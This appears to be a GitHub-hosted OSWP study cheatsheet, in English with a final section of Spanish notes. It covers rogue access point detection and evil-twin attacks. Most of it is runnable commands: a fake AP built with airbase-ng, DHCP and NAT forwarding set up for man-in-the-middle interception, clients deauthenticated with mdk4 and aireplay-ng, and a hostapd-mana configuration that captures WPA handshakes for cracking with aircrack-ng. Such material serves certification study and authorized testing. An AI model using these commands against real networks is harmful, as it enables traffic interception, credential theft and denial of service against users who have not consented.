 # Rogue Access Points (Rogue AP) - OSWP Cheatsheet with Commands and Steps

* What is a Rogue AP?

Unauthorized AP inside a target environment.
Used for unauthorized access, MITM, credential capture.

Tools Used

- Airmon-ng / Airodump-ng / Airbase-ng (aircrack-ng suite)
- Kismet
- Wireshark
- Hostapd
- MDK4

#### Step 1: Enable Monitor Mode

Before scanning or creating rogue APs, put your wireless interface into monitor mode.

```bash
sudo airmon-ng start wlan0
```
> This creates wlan0mon (monitor mode interface)

#### Step 2: Scan for APs (Detecting Rogue APs)

Use airodump-ng or kismet to list all APs in range:
```bash
sudo airodump-ng wlan0mon
```
Look for unknown SSIDs or BSSIDs
Note ESSID, BSSID (MAC), CH (channel), encryption type

Alternatively, start kismet (has GUI/CLI interface):

```bash
sudo kismet
```
#### Step 3: Analyze Suspected Rogue APs

Check if an AP’s BSSID matches known authorized APs.
Rogue APs might have the same ESSID but different MAC.
Check signal strengths and locations.
Use Wireshark to capture and analyze suspicious traffic:

```bash
sudo wireshark &
```
Capture on wlan0mon and filter by AP MAC or SSID.

#### Step 4: Create a Rogue AP (Evil Twin) for Testing

Use airbase-ng to create a fake AP simulating a legitimate one:

```bash
sudo airbase-ng -e "Target_SSID" -c 6 wlan0mon
```
- -e specifies the SSID.
- -c specifies the channel to use.

This creates a fake AP broadcasting "Target_SSID" on channel 6.
#### Step 5: Handle DHCP for Rogue AP

To provide IP addresses to clients connecting to your rogue AP, set up a DHCP server:

Example using dnsmasq:
```bash
sudo systemctl stop NetworkManager
```
```bash
sudo ip addr add 192.168.10.1/24 dev at0  # 'at0' is virtual interface created by airbase-ng
```
```bash
sudo dnsmasq --interface=at0 --dhcp-range=192.168.10.10,192.168.10.50,12h
```
Ensure DHCP range does not conflict with the real network.

#### Step 6: Forward Traffic and Enable MITM (Optional)

To forward traffic and enable man-in-the-middle attacks:
```bash
sudo sysctl -w net.ipv4.ip_forward=1

sudo iptables -t nat -A POSTROUTING -o wlan0 -j MASQUERADE
sudo iptables -A FORWARD -i at0 -j ACCEPT
```
Replace wlan0 with your Internet-facing interface.
#### Step 7: Deauthenticate Clients from Legit AP (Force them to connect to Rogue AP)

Use mdk4 or aireplay-ng to send deauth packets:
```bash
sudo mdk4 wlan0mon d -c 6 -b <AP BSSID>
```
or with aireplay-ng:
```bash
sudo aireplay-ng --deauth 10 -a <AP BSSID> wlan0mon
```
Causes clients to disconnect from real AP and possibly connect to your rogue AP.

#### Step 8: Analyze Captured Data

Use Wireshark to analyze traffic, capture credentials, or data exfiltration.
Look for unencrypted data or weak authentication.

#### Summary of Key Commands:
|Purpose |Command Example|
|--------|-----------------|
|Enable monitor mode |`sudo airmon-ng start wlan0` |
|Scan APs |	`sudo airodump-ng wlan0mon`|
|Start kismet for detection 	|`sudo kismet`|
|Create fake AP (Rogue AP) |`sudo airbase-ng -e "SSID" -c 6 wlan0mon` |
|Setup DHCP server on at0 	|`sudo ip addr add 192.168.10.1/24 dev at0` + `sudo dnsmasq --interface=at0 --dhcp-range=192.168.10.10,192.168.10.50,12h`
|Enable IP forwarding |	`sudo sysctl -w net.ipv4.ip_forward=1`|
|Setup NAT for routing 	|`sudo iptables -t nat -A POSTROUTING -o wlan0 -j MASQUERADE`|
|Send deauth packets 	|`sudo mdk4 wlan0mon d -c 6 -b <AP BSSID>` or `sudo aireplay-ng --deauth 10 -a <AP BSSID> wlan0mon`

-------

## Flow attack

**Apuntes Comandos:**
> Necesitamos dos tarjetas de red con capacidades de inyeccion y monitor mode.


### Discovery
>Con wlan0mon
```bash
sudo airodump-ng -w discovery --output-format pcap wlan0mon
```
```bash
wireshark discovery-01.cap
```
En base a lo que veamos en wireshark debemos aramar el archivo de configuracion.

### Creacion
#### A. Crear archivo configuracion
```bash
cat <essid>-mana.conf
interface=wlan0
ssid=<essid>
channel=1
hw_mode=g # banda a 2,4 GHz
ieee80211n=1 # 802.11n
wpa=3 # WPA/WPA2
wpa_key_mgmt=WPA-PSK # autenticación PSK
wpa_passphrase=ANYPASSWORD # configurar la clave
wpa_pairwise=TKIP CCMP # habilitar el cifrado TKIP/CCMP con WPA1
rsn_pairwise=TKIP CCMP # habilitar TKIP/CCMP con cifrado WPA2
mana_wpaout=/home/kali/<essid>.hccapx # output de protocolos de enlace capturados
```

#### B. Captura protocolos de enlace (handshake)
```bash
sudo hostapd-mana <essid>-mana.conf 
```
>**Con wlan1mon**

#### C. Deautenticamos clientes con la otra tarjeta de red en modo monitor

```bash
sudo aireplay-ng -0 0 -a AA:BB:CC:DD:EE:FF wlan1mon
```

**C.1 Crackeamos protocolo de enlace (handshake)**

```bash
aircrack-ng <essid>.hccapx -e <essid> -w /usr/share/john/password.lst
```